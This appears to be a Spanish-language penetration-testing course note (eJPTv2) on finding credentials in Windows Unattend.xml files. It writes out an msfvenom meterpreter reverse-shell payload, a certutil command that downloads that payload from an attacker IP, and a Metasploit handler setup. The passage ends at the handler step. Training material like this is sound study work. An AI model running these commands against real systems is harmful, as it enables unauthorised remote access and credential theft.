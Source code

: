 Una forma de encontrar credenciales en Windows es buscando en archivos de configuración que se utilizan para automatización de la instalación de Windows en equipos, concretamente, con la herramienta “ Unattended Windows Setup”.

Estos archivos de configuración, contienen credenciales de cuentas de usuario específicas, normalmente de la cuenta Administrator, y la de usuarios que se quieran crear durante la instalación del sistema. 

Esta herramienta, normalmente, utiliza los siguientes archivos de configuración:

- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Autounattend.xml

Normalmente, las contraseñas localizadas en estos archivos están en **base64**.

Veamos en un ejemplo el proceso. Debemos obtener previamente una sesión meterpreter. En este ejemplo, creamos un payload con **msfvenom**:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<loca_IP> LPORT=1234 -f exe > payload
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2093.png)

A continuación, creamos un servidor http con python para descargar el payload desde la máquina víctima:

```bash
python -m SimpleHTTPServer 80
```

Desde la maquina objetivo introducimos el siguiente comando:

```bash
certutil -urlcache -f http://<IP_atacante>/payload.exe payload.exe
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2094.png)

Ahora volvemos a nuestra máquina atacante y abrimos msfconsole. Lanzamos el módulo:

```bash
use multi/hanlder
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST <local_IP>
run
```
